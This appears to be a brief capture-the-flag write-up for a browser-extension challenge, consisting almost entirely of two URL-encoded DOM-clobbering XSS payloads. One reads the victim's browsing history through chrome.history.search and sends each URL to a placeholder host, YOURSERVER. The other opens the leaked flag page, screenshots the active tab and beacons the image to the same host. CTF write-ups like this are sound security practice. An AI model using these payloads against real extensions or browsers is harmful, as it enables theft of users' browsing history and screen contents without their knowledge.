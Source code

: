 ## Leak the flag's random path using chrome history api and DOM clobbering affecting the content script of the extension to achieve XSS in the context of the extension :
```?message=<form%20id=users>%20<img%20name=privileged%20data-admin=chrome.history.search({text:``,maxResults:10},function(data){data.forEach(function(page){fetch(`http://YOURSERVER?a=`%2Bpage.url);});});></form>```

# Leak the flag by opening a tab with the leaked flag URL and taking a screenshot of the current active tab

```?message=<form%20id=users>%20<img%20name=privileged%20data-admin=chrome.tabs.create({url:`http://challenge:8080/MIc5MDpXQlWj0ak1HnJ7r3iQg1vtOv`},function(tab){setTimeout(function(){chrome.tabs.captureVisibleTab(null,{},function(dataUri){navigator.sendBeacon(`http://YOURSERVER`,dataUri);})},1000);});></form>```